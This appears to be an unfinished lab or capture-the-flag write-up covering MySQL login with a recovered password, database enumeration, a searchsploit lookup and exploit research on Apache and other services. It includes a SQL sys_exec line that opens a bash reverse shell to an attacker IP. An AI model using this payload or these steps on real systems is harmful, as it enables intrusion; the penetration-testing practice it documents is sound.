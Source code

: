 * We see that 3306/MYSQL is running.
* Let's try our new credentials here!

### MySQL Enumeration

Authentication

```
mysql -u root -p
Enter Password: EscalateRaftHubris123
mysql>
```

* Success! Time to enumerate!

### DB Enumeration

```
show databases;
use <database>;
show tables;
describe <table_name>;

```

* I was unable to find anything useful in here
* <mark style="background-color:orange;">mysql version: 5.7.30</mark>

### Searchsploit

```
searchsploit mysql 5.7
MySQL / MariaDB / PerconaDB 5.5.x/5.6.x/5.7.x - 'root' System User Privilege Escalation | linux/local/40679.sh

```

* Locate 40679.sh

select sys\_exec('bash -c "bash -i >& /dev/tcp/192.168.49.78/8080 0>&1"');

## Exploit Research

#### What do we have to work with?

* <mark style="color:yellow;">Apache 2.4.25</mark>
  * <mark style="color:yellow;">50512.py -- RCE</mark>
  * [<mark style="color:yellow;">https://www.exploit-db.com/exploits/50512</mark>](https://www.exploit-db.com/exploits/50512)
    * <mark style="color:yellow;">This did not work.</mark>
* <mark style="color:yellow;">VSFTPD 3.0.3</mark>
* <mark style="color:yellow;">PostGreSQL 9.6.4 - 9.6.6 or 9.6.13 - 9.6.17</mark>

## This remains unfinished due to the weird privilege escalation with mysql. I kept getting a strange error after numerous attempts. Moving on.
